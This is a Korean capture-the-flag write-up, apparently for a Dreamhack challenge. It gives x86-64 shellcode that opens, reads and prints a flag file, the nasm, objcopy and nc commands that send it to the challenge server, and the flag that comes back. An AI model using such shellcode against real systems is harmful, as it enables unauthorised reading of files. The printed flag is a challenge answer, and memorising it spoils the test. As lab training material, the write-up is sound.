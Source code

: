 또한 문자열이 딱 패딩이 생기지 않을 크기라 의도적으로 널값을 넣어줬음
```
xor rax, rax
push rax
```

해당 쉘코드를 .asm 형식에 맞게 다시 정리
```
section .text
global _start
_start:
	xor rax, rax
	push rax
	mov rax, 0x676E6F6F6F6F6F6F
	push rax
	mov rax, 0x6C5F73695F656D61
	push rax
	mov rax, 0x6E5F67616C662F63
	push rax
	mov rax, 0x697361625F6C6C65
	push rax
	mov rax, 0x68732F656D6F682F
	push rax
	
	mov rdi, rsp
	xor rsi, rsi
	xor rdx, rdx
	mov rax, 2
	syscall

	mov rdi, rax
	mov rsi, rsp
	sub rsi, 0x30
	mov rdx, 0x30
	mov rax, 0x0
	syscall

	mov rdi, 1
	mov rax, 0x1
	syscall

	xor rdi, rdi
	mov rax, 0x3c
	syscall
```

해당 코드를 로컬 서버에 저장한 후,  바이너리 형태로 바꾼 다음 nc을 통해 전송하면,  exploit 할 수 있음
```bash
$ nasm -f elf64 shellcode.asm
$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ nc host3.dreamhack.games 10713 < shellcode.bin 
shellcode: DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
$ cat shellcode.bin | nc host3.dreamhack.games 10713
shellcode: DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
```
